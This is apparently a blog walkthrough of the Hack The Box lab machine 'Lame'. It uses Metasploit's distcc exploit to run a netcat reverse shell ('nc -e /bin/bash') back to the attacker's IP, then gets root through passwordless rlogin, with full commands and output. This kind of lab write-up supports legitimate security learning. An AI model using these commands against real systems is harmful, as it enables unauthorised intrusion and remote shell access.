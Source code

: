 ```yaml
---
title: Hack The Box&#58; Lame
permalink: /HTB/Love
layout: default
---
```

<img src="https://github.com/susMdT/Nigerald/blob/master/assets/images/Lame_Big.png?raw=true" unselectable="on" class="Box_Logo" />

Lame is an easy level box on HackTheBox and covers many basics. There are multiple approaches for this box and overall it was pretty fun.

# Walkthrough
Start off by performing a complete, general nmap scan `nmap -p-`
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```
Note that `distccd`, an exploitable service, is running. Remote code execution is possible through Metasploit. Using `exploit/unix/misc/distcc_exec`, set the payload to `cmd/unix/generic` with the command as `echo "nc -e /bin/bash <ip> <port>" > b.sh ; ./b.sh`. The options should look similar to this
```
Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/generic):

   Name  Current Setting                                                                     Required  Description
   ----  ---------------                                                                     --------  -----------
   CMD   echo "nc -e /bin/bash 10.10.14.4 4444" > b.sh ; chmod +x ./b.sh ; ./b.sh            yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
   ```
This payload creates a script for a reverse shell on the victim machine, makes it executable, then executes it. So before this exploit is run, make sure you have a listener open on your host with `nc -nvlp <port>`. After receiving a connection and upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")`, we should have something like this:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 52475
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@lame:/tmp$ 
```
Enumerating further with `nmap localhost` gives us much more information now.
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
953/tcp  open  rndc
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
3632/tcp open  distccd
4444/tcp open  krb524
5432/tcp open  postgres
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
```
Port 513, rlogin, is dated and vulnerable by default and doesn't require password by default. This can be exploited with `rlogin localhsot -l root`.
```
rlogin localhost -l root
Last login: Thu Sep 30 10:48:49 EDT 2021 from :0.0 on pts/0
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@lame:~# 
```
We have successfully rooted the machine.
